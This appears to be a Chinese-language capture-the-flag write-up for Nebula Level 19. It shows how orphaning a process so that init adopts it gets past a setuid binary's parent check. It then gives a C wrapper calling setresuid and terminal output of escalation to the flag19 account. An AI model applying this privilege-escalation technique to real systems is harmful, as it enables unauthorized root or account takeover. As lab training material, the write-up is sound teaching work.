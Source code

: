 ## Level 19

核心在于想办法让父进程的 owner 为 root。

有点 ops 经验的都知道如果父进程退出了但子进程还在，子进程就会被 pid=1(init) 接管。而 init 一般都是 root 所有的。

所以很容易构造出以下 POC 命令

```bash
level19@nebula:~$ /home/flag19/flag19 -c "id" </dev/null & exit
[1] 4020
exit
uid=1020(level19) gid=1020(level19) groups=1020(level19)
```

剩下就是让 /bin/sh 即 /bin/bash 通过 -p 参数保留 eid，再自己写个调用 setresuid() 的程序把 ruid 切成 flag19，再执行 getflag 了。

程序代码：

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv, char **envp) {
  printf("[before] real uid is: %d  euid is: %d\n", getuid(), geteuid());
  setresuid(geteuid(), geteuid(), geteuid());
  printf("[after] real uid is: %d\n", getuid());
  system("getflag > /tmp/f19");
}
```

放到上面构造的命令里执行

```bash
level19@nebula:~$ /home/flag19/flag19 -p -c "/tmp/a.out" </dev/null & exit
[1] 4209
exit
[before] real uid is: 1020  euid is: 980
[after] real uid is: 980

level19@nebula:~$ cat /tmp/f19
You have successfully executed getflag on a target account
```